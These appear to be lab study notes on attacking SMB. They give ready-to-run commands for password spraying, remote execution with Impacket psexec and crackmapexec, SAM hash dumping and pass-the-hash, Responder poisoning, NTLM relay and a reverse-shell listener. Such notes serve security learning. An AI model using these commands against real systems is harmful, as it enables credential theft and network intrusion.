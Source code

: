 - Designed to run on top of NetBIOS over TCP/IP using TCP 139, UDP 137/138
- Microsoft add option to run SMB directly over TCP/IP using TCP 445 wihtout extra NetBIOS layer
- If 445 is open, expect modern SMB; if 139 is open (and 445 closed), you’re likely on legacy NBT.

# Misconfigurations
- Anonymous authentication (null session)
	- Most tools that interact with SMB allow such connectivity, including `smblcient, smbmap, rpcclient, enm4linux`
- See [[4. SMB]] for use of smbmap, rpcclient..

# Protocol Specific Attacks
- Brute forcing, password spray
	- Say have a compiled username list and a password in mind, can spray with crackmapexec
	- `crackmapexec smb 10.10.110.17 -u userlist.txt -p 'Company01!' --local-auth
		- `--continue-on-success` to keep spraying even after valid password found
		- `--local-auth` if targetting non-domain joined computer

# Remote Code Execution (RCE)
- PsExec: tool to execute process on other systems without installing client software
	- Has a Windows service image inside executable which deploys to admin$ share on remote machine
	- Uses DCE/RPC interface over SMB to access WIndows Service Control Manager API, starts PSExec service on remote machine
	- PSExec service then creates a named pipe that can send commands to system
- Can use Linux implementations
	- Impacket PsExec
	- Impacket SMBExec
	- Impacket atexec
	- Crackmapexec - includes SMBExec

- Impacket Psexec
	- `impacket-psexec administrator:'Password123!'@10.10.110.17`
- Crackmapexec
	- `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`
	- Benefit: can run command on mjultiple users.
		- Eg. can enumerate logged on users for all machines within this network
		- `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`
	- Extracting Hashes from SAM
		- See [[5. Windows Attacking]]`
		- `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`
		- Can then pass NTLM hash to authenticate
			- `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE

## Forced Authentication attacks
- Create fake SMB server to capture NTLM v1/v2 hashes
- Responder
	- LLMNR, NBT-NS, MDNS poisoner
	- `responder -I <interface name>`
	- Name resolution in Windows:
		- The hostname file share's IP address is required.
		- The local host file (C:\Windows\System32\Drivers\etc\hosts) will be checked for suitable records.
		- If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names.
		- Is there no local DNS record? A query will be sent to the DNS server that has been configured.
		- If all else fails, the machine will issue a multicast query, requesting the IP address of the file share from other machines on the network.
	- Say user **mistype share folder's name**
		- All name resolutions faile since name don't exist
		- Machine sends multicast query including our server
		- Then we can reply maliciously isnce no measures to verify integrity
	- Saved hashes in `/usr/share/responder/logs`
		- Can copy to a file and crack with hashcat, module 5600
		- If cannot crack, can relay using impacket-ntlmrelayx or Responder MultiRelay.py
			- impacket-ntlmrelayx:
			- 1. Set SMB to OFF in responder config file `/etc/responder/Responder.cong`
			- 2. `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`
				- By default, dump SAM database, but can execute commands with `-c
				- Can create a Powershell reverse shell with www.revshells.com, set our machine IP address, port an option Powershell#3
				- See [[kiv]]
			- 3. Create listener on our server 
				- `nc -lvnp 9001`
			- 4. Execute reverse shell command to obtain reverse shell

# RPC
- See [[4. SMB]]


